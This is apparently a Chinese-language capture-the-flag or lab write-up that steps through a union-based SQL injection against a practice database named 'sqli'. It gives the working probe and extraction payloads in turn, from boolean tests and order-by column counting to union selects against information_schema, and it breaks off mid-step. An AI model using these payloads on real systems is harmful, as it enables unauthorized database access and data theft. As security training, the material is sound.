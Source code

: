 1’

![image-20220609172338482](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172338482.png)

1’ and 1=1#

![image-20220609172716892](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172716892.png)

1 and 1=1

![image-20220609172737840](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172737840.png)

1 and 1=2

![image-20220609172755409](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172755409.png)

这里看到1’ 和1‘ and 1=1#,1 and 1=2不执行，而1 and 1=1 执行了
所以确定有注入

于是用语句查看有几个字段：
1 order by 1

![image-20220609172900509](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172900509.png)

1 order by 2

![image-20220609172942306](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172942306.png)

1 order by 3

![image-20220609172956927](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609172956927.png)

可以看到1 order by 3时没有执行，所以有两个字段

在利用语句查看能执行语句的字段：

```
-1 union select 1,2
```

<img src="C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173059574.png" alt="image-20220609173059574" style="zoom:80%;" />

返回了1，2两个字段的内容，所以这两个
字段能执行回显
于是构造语句查看当前数据库：
-1 union select 1,database()

![image-20220609173157303](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173157303.png)

得到数据库sqli,在去得到数据库的表名，构造语句：

-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema='sqli'

![image-20220609173528669](C:\Users\16414\AppData\Roaming\Typora\typora-user-images\image-20220609173528669.png)

发现一个奇怪的表ywjidlpwzg查看里面字段名字，构造语句：
